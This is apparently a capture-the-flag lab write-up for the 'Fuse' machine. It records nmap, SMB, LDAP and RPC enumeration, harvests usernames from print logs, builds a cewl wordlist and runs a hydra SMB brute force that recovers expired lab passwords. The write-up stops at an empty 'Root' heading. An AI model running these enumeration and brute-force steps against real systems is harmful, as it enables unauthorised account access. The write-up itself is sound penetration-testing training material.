


# Fuse
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.193 -T4                         
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-09 16:32 BST
Nmap scan report for 10.10.10.193 (10.10.10.193)
Host is up (0.092s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
49667/tcp open  unknown
49675/tcp open  unknown
49676/tcp open  unknown
49680/tcp open  unknown
49698/tcp open  unknown
```
```
└─$ nmap -Pn -p53,80,88,135,139,445,464,593,636,3268,3269,5985 -sC -sV 10.10.10.193 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-09 17:23 BST
Nmap scan report for 10.10.10.193 (10.10.10.193)
Host is up (0.16s latency).

PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-09-09 16:35:34Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  ��7a)V       Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-09-09T16:35:42
|_  start_date: 2023-09-09T15:42:29
|_clock-skew: mean: 2h32m23s, deviation: 4h02m30s, median: 12m22s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2023-09-09T09:35:41-07:00

```

- `smb`
```
└─$ smbclient -N -L //10.10.10.193                                                    
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.193 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

- `ldapsearch`
```
└─$ ldapsearch -H ldap://10.10.10.193 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingContexts: DC=fabricorp,DC=local
namingContexts: CN=Configuration,DC=fabricorp,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=fabricorp,DC=local
namingContexts: DC=DomainDnsZones,DC=fabricorp,DC=local
namingContexts: DC=ForestDnsZones,DC=fabricorp,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1

```
```
└─$ ldapsearch -H ldap://10.10.10.193 -x -b "DC=fabricorp,DC=local"
# extended LDIF
#
# LDAPv3
# base <DC=fabricorp,DC=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A6C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v3839

# numResponses: 1
```

- `rpc`
```
└─$ rpcclient -U "" -N 10.10.10.193
rpcclient $> querydispinfo
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> 

```

- Web Server



- `gobuster` found nothing

## Foothold
- We can check the print logs
  - And we the usernames which we can use for brute forcing



```
administrator
bhult
pmerton
tlavel
sthompson
```

- So the only thing left is to try brute-forcing
  - Let's generate a password list
```
└─$ cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers > cewl.list
```
```
└─$ hydra -L users.list -P cewl.list fuse.fabricorp.local smb
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-09 20:41:50
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 850 login tries (l:5/p:170), ~850 tries per task
[DATA] attacking smb://fuse.fabricorp.local:445/
[STATUS] 141.00 tries/min, 141 tries in 00:01h, 709 to do in 00:06h, 1 active
[445][smb] Host: 10.10.10.193 Account: bhult Valid password, password expired and must be changed on next logon
[445][smb] host: fuse.fabricorp.local   login: bhult   password: Fabricorp01
[STATUS] 161.33 tries/min, 484 tries in 00:03h, 366 to do in 00:03h, 1 active
[445][smb] Host: 10.10.10.193 Account: tlavel Valid password, password expired and must be changed on next logon
[445][smb] host: fuse.fabricorp.local   login: tlavel   password: Fabricorp01
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-09 20:47:02
```


## Root